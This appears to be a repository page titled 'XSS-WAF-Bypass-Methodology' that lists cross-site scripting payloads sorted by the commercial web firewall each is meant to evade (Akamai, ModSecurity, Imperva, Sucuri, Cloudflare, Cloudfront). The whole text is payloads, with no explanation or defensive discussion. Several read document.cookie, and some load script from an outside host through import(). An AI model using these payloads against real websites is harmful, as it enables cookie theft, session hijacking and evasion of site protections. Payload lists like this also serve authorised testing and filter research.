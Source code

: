 # XSS-WAF-Bypass-Methodology

<b>Akamai WAF Bypasses</b>

<b>Payloads specifically crafted to bypass Akamai WAF protection</b>

';k='e'%0Atop['al'+k+'rt'](1)//

'><A HRef=' AutoFocus OnFocus=top//?.['ale'%2B'rt'](1)>

<b>ModSecurity WAF Bypasses</b>

<svg onload='new Function['Y000!'].find(al\u0065rt)'>

<b>Imperva WAF Bypasses</b>

<Img Src=//X55.is OnLoad%0C=import(Src)>

<sVg OnPointerEnter='location=javas+cript:ale+rt%2+81%2+9;//</div'>

<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=&#x0000000000061;lert&#x000000028;origin&#x000029;>

<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle='propmt(document.cookie);'>

<b>Sucuri WAF Bypasses</b>

<A HREF='https://www.cia.gov/'>Click Here </A>

'><img src=x onerror=alert(document.cookie)>

<button onClick='prompt(1337)'>Submit</button>

<a aa aaa aaaa aaaaaa href=j&#97v&#97script&#x3A;&#97lert(1337)>ClickMe

<a aa aaa aaaa aaaaaa href=j&#97v&#97script&#x3A;&#97lert(document.cookie)>ClickMe

<a href='j&#97;vascript&#x3A;&#97;lert('Sucuri WAF Bypassed ! ' + document.domain + '\nCookie: ' + document.cookie); window&#46;location&#46;href='https://github.com/coffinxp';'>ClickMe</a>

<b>CloudFlare WAF Bypasses</b>

<svg/onload=window['al'+'ert']1337>

<Svg Only=1 OnLoad=confirm(document.cookie)>

<svg onload=alert&#0000000040document.cookie)>

%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E

<sVG/oNLY%3d1//On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>

<Img Src=//X55.is OnLoad%0C=import(Src)>

<Img Src=OnXSS OnError=prompt(1337)>

<Img Src=OnXSS OnError=prompt(document.cookie)>

<Svg Only=1 OnLoad=confirm(atob('Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=='))>

<b>Cloudfront WAF Bypasses</b>

'>'><details/open/ontoggle=confirm('XSS')>

6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/

';window/aabb/['al'%2b'ert'](document./aabb/location);//

'>%0D%0A%0D%0A<x '='foo'><x foo='><img src=x onerror=javascript:alert(cloudfrontbypass)//>'>





